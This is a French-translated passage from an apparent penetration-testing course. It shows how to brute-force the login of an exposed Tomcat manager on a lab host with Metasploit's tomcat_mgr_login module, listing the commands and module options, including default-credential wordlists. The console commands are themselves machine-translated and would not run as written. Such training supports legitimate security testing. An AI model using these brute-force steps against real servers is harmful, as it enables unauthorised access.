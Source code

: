 Attaquer Tomcat
================

* * * * *

Nous avons identifié qu'il existe bel et bien un hôte Tomcat exposé en externe par notre client. Comme la portée de l'évaluation est relativement petite et que toutes les autres cibles ne sont pas particulièrement intéressantes, portons toute notre attention sur la tentative d'obtenir un accès interne via Tomcat.

Comme indiqué dans la section précédente, si nous pouvons accéder aux points de terminaison `/manager` ou `/host-manager` , nous pouvons probablement exécuter du code à distance sur le serveur Tomcat. Commençons par forcer brutalement la page du gestionnaire Tomcat sur l'instance Tomcat à `http://web01.inlanefreight.local:8180`. Nous pouvons utiliser le [auxiliary/scanner/http/tomcat_mgr_login](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/) module Metasploit à ces fins, Burp Suite Intruder ou n'importe quel nombre de scripts pour y parvenir. Nous utiliserons Metasploit pour nos besoins.

* * * * *

Tomcat Manager - Connexion Brute Force
----------------------------------

Nous devons d'abord définir quelques options. Encore une fois, nous devons spécifier le vhost et l'adresse IP de la cible pour interagir correctement avec la cible. Nous devons également définir `STOP_ON_SUCCESS` sur `true` afin que l'analyseur s'arrête lorsque nous obtenons une connexion réussie, inutile de générer des charges de demandes supplémentaires après une connexion réussie.

```
msf6 auxiliaire (scanner/http/tomcat_mgr_login) > définir VHOST web01.inlanefreight.local
msf6 auxiliaire (scanner/http/tomcat_mgr_login) > définir RPORT 8180
msf6 auxiliaire (scanner/http/tomcat_mgr_login) > définir stop_on_success true
msf6 auxiliaire (scanner/http/tomcat_mgr_login) > définir les rhosts 10.129.201.58

```

Comme toujours, nous vérifions que tout est correctement configuré en  `afficher les options`.

```
msf6 auxiliaire (scanner/http/tomcat_mgr_login) > afficher les options

Options du module (auxiliaire/scanner/http/tomcat_mgr_login) :

    Nom Paramètre actuel requis Description
    ---- --------------- -------- -----------
    BLANK_PASSWORDS false non Essayez des mots de passe vides pour tous les utilisateurs
    BRUTEFORCE_SPEED 5 oui À quelle vitesse bruteforce, de 0 à 5
    DB_ALL_CREDS false non Essayer chaque couple utilisateur/mot de passe stocké dans la base de données courante
    DB_ALL_PASS false non Ajouter tous les mots de passe de la base de données actuelle à la liste
    DB_ALL_USERS false non Ajouter tous les utilisateurs de la base de données actuelle à la liste
    PASSWORD non Le mot de passe HTTP à spécifier pour l'authentification
    PASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt non Fichier contenant les mots de passe, un par ligne
    Proxies non Une chaîne de proxy au format type:host:port[,type:host:port][...]
    RHOSTS 10.129.201.58 oui Le ou les hôtes cibles, l'identifiant CIDR de la plage ou le fichier d'hôtes avec la syntaxe 'file:<path>'
    RPORT 8180 oui Le port cible (TCP)
    SSL false non Négocier SSL/TLS pour les connexions sortantes
    STOP_ON_SUCCESS vrai oui Arrêtez de deviner quand un identifiant fonctionne pour un hôte
    TARGETURI /manager/html oui URI pour la connexion au gestionnaire. La valeur par défaut est /manager/html
    THREADS 1 oui Le nombre de threads simultanés (un maximum par hôte)
    USERNAME non Le nom d'utilisateur HTTP à spécifier pour l'authentification
    USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt non Fichier contenant les utilisateurs et les mots de passe séparés par un espace, une paire par ligne
    USER_AS_PASS false non Essayez le nom d'utilisateur comme mot de passe pour tous les utilisateurs
```